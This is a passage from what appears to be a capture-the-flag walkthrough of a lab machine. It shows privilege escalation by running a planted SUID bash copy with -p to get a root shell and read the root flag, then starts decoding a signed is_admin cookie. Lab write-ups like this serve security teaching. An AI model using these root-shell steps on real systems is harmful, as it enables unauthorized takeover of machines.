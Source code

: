 

Now `/tmp/0xdf` exists:



    dvir@headless:/dev/shm$ ls -l /tmp/0xdf 
    -rwsrwsrwx 1 root root 1265648 Jul 11 23:16 /tmp/0xdf



I'll run it with `-p` (`bash` will drop privileges without this) and get
a root shell:



    dvir@headless:/dev/shm$ /tmp/0xdf -p
    0xdf-5.2#



I'll clean up the binary and get the root flag:



    0xdf-5.2# rm /tmp/0xdf 
    0xdf-5.2# cat /root/root.txt
    2694e156************************



## Beyond Root

### Cookie Exploration

#### Decoding

The `is_admin` cookie is made up of two base64 encoded strings with a
`.` between them:



    is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs



My best guess is that the first is the data and the second is a
signature.



    oxdf@hacky$ echo "InVzZXIi" | base64 -d
    "user"



The second string is URL-safe base64-encoded (the `_` character isn't
part of the standard base64 alphabet). It decodes easily in
[Cyberchef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9-_',true,false)To_Hexdump(16,false,false,false)&input=dUFsbVhsVHZtOHZ5aWhqTmFQRFdudkJfWmZz),
albeit to random garbage (which would make sense as a signature):
